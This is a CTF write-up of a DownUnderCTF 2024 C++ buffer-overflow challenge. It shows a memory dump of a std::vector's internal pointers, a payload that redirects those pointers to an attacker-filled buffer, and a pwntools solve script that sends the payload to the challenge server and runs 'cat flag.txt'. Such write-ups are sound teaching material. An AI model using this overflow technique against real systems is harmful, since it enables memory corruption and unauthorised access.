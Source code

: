 ```yaml
---
created: 2024-07-05T19:31
updated: 2024-07-05T20:24
---
```


## Analysis

A simple overflow challenge, where we have to modify a vector's values to `DUCTF`.

```cpp
char buf[16];
std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};
```

Since this is something new for me, let's examine the memory structure with a custom function.

```cpp
#include <iomanip>
void printMemory(void *startAddress, size_t length){
    unsigned char *address = static_cast<unsigned char *>(startAddress);
    for (size_t i = 0; i < length; ++i) {
        std::cout << std::hex << std::setw(2) << std::setfill('0') << static_cast<int>(address[i]) << ' ';
        if ((i + 1) % 16 == 0) std::cout << std::endl;
    }
    if (length % 16 != 0) std::cout << std::endl;
}
```

```
memory starting from 'buf'
44 55 43 54 46 41 41 41 41 41 41 41 41 41 41 41 <buf>
b0 2e 8c 00 00 00 00 00 b5 2e 8c 00 00 00 00 00 <vec>
b5 2e 8c 00 00 00 00 00 00 00 00 00 00 00 00 00 <vec>
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Looking through llvm definitions...

```cpp
template <class _Tp, class _Allocator>
inline _LIBCPP_INLINE_VISIBILITY
__vector_base<_Tp, _Allocator>::__vector_base()
        _NOEXCEPT_(is_nothrow_default_constructible<allocator_type>::value)
    : __begin_(nullptr),
      __end_(nullptr),
      __end_cap_(nullptr)
{
}
```

It seems those three 8 byte values are `begin`, `end` and `end_cap` resp.
## Attack

We can overwrite `buf` to `DUCTFAAAAAAAAAAA`, followed by the address of `buf` encoded, so the vector is now pointing to `buf`.

By looking at the decompiled code of the challenge, we can find the address of `buf` to be `0x4051e0` (with the help of Godbolt).

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720224977/2024/07/ac6d54f8474b94456be9b46d305410db.png)

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720225053/2024/07/0961ccc9368b9a43f078e593b3a663b1.png)

We can craft our payload like this.

```python
payload = b'DUCTF' + b'A'*11 + loc + end + end
```

### Solve Script

```python
from pwn import *
context.log_level = 'error'
loc = 0x4051e0
end = loc + 5
loc = loc.to_bytes(8, byteorder='little')
end = end.to_bytes(8, byteorder='little')
payload = b'DUCTF' + b'A'*11 + loc + end + end
conn = remote("2024.ductf.dev", 30013)
conn.sendline(payload)
conn.sendline(b"cat flag.txt")
print(conn.recv())

# b'DUCTF{y0u_pwn3d_th4t_vect0r!!}\n'
```
